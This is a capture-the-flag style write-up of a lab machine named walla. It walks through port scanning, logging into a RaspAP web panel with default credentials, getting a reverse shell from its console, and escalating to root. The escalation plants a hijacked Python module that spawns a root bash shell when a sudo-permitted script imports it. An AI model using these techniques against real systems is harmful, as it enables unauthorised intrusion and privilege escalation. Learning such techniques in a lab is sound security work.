





Writeup by wook413

[TOC]

# Enumeration

## Nmap

I began the machine with scanning all 65,535 ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-11 16:55 UTC
Nmap scan report for 192.168.109.97
Host is up (0.048s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
422/tcp   open  ariel3
8091/tcp  open  jamlink
42042/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.92 seconds
```

Discovered 7 open ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,23,25,53,422,8091,42042                                           
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-11 16:57 UTC
Nmap scan report for 192.168.109.97
Host is up (0.046s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\\x0D
|_  Basic realm=RaspAP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.53
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 18.59 seconds
```

Also scanned for open UDP ports

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10                   
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-11 16:57 UTC
Nmap scan report for 192.168.109.97
Host is up (0.045s latency).

PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   open|filtered dhcps
123/udp  closed        ntp
135/udp  closed        msrpc
137/udp  closed        netbios-ns
138/udp  closed        netbios-dgm
161/udp  closed        snmp
445/udp  closed        microsoft-ds
631/udp  open|filtered ipp
1434/udp closed        ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 6.33 seconds
```

# Initial Access

## Telnet 23

I tried to connect to target’s port 23 using telnet for banner grabbing.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ telnet $IP 23
Trying 192.168.109.97...
Connected to 192.168.109.97.
Escape character is '^]'.
Linux Telnetd 0.17
Debian GNU/Linux 10
walla login: 
```

I looked for known vulnerabilities and there was one and I first thought it was a match but it didn’t get me anywhere. I kept looking for leads.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit telnet 0.17
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
GNU inetutils < 1.9.4 - 'telnet.c' Multiple Overflows (PoC)                                             | linux/dos/45982.txt
GoodTech Telnet Server < 5.0.7 - Buffer Overflow Crash                                                  | windows/dos/882.cpp
GoodTech Telnet Server < 5.0.7 - Remote Buffer Overflow (2)                                             | windows/remote/883.c
netkit-telnet-0.17 telnetd (Fedora 31) - 'BraveStarr' Remote Code Execution                             | linux/remote/48170.py
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## HTTP 8091

The web service on port 8091 is asking for credentials.



Looking back at the Nmap result, I thought `RaspAP` has to be the name for the service being hosted on the port.

```bash
8091/tcp  open  http       lighttpd 1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\\x0D
|_  Basic realm=RaspAP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.5
```

I found the default credentials of the service.



Apparently the service was still using the default credentials.



I found a known vulnerability related to RaspAP but unfortunately it didn’t get me a shell.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit raspap    
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
RaspAP 2.6.6 - Remote Code Execution (RCE) (Authenticated)                                              | php/webapps/50224.py
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Exploring the website, I found the built-in console under the System tab.



I tried to connect the console to my reverse shell listener.


I was able to get the reverse shell using `penelope` .



# Privilege Escalation

Under `/home/walter` , I found `local.txt` and `wifi_reset.py`

```bash
www-data@walla:/home$ ls -aR
.:
.  ..  janis  paige  terry  walter

./janis:
.  ..  .bash_logout  .bashrc  .profile

./paige:
.  ..  .bash_logout  .bashrc  .profile  .zshrc

./terry:
.  ..  .bash_logout  .bashrc  .profile

./walter:
.  ..  .bash_logout  .bashrc  .profile  local.txt  wifi_reset.py
```

found `local.txt`

```bash
www-data@walla:/home/walter$ cat local.txt 
0556...
```

Interestingly, `www-data` can run a few commands with sudo privileges starting with the file I just found.

```bash
www-data@walla:/home/walter$ sudo -l
Matching Defaults entries for www-data on walla:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin

User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
```

Reviewing the `wifi_reset.py` source code, I noticed it imports a module named `wificontroller` . Since this module isn’t present in the current directory, I can perform a hijacking attack by creating a malicious `wificontroller.py` file to gain elevated privileges.

```bash
www-data@walla:/home/walter$ cat wifi_reset.py 
#!/usr/bin/python

import sys

try:
        import wificontroller
except Exception:
        print "[!] ERROR: Unable to load wificontroller module."
        sys.exit()

wificontroller.stop("wlan0", "1")
wificontroller.reset("wlan0", "1")
wificotroller.start("wlan0", "1")
```

The payload can be as simple as this:

```bash
www-data@walla:/home/walter$ cat << wook > wificontroller.py
> import os;
> os.system("/bin/bash -p");
> wook
```

Obtained the root shell.

```bash
www-data@walla:/home/walter$ sudo /usr/bin/python /home/walter/wifi_reset.py
root@walla:/home/walter# whoami
root
```

Found `proof.txt`

```bash
root@walla:/home/walter# cd /root
root@walla:~# ls
proof.txt
root@walla:~# cat proof.txt
b892...
```